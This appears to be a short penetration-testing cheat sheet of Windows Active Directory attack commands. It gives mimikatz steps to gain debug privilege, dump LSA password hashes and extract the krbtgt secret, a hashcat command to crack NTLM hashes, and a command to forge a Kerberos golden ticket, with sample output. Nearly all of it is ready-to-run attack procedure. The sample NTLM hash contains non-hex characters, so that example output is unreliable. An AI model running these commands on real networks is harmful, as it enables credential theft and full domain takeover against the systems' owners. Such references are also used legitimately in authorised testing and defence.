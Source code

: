 ### [](#header-3)Dump hashes

Run mimikatz with priviliges.

```
privilege::debug
```

Dump hashes.

```
lsadump::lsa /patch
```

Crack with hashcat.

```
hashcat -m 1000 <hash> rockyou.txt -r OneRuleToRuleThemAll.rule
```


### [](#header-3)Krbtgt

Run mimikatz with priviliges.

```
privilege::debug
```

Dumping security identifier of the Kerberos Ticket Granting Ticket. This will allow creating a golden ticket.

```
lsadump::lsa /inject /name:krbtgt
```

Example:

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain: CONTROLLER / S-1-5-21-###22342-###5553-245633

RID  : 00000034 (502)
User : krbtgt

	* Primary
	   NTLM : 393852432837248324234cas 
```

Create a golden ticket.

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

Example:

```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-###22342-###5553-245633 /krbtgt:393852432837248324234cas /id:500
```
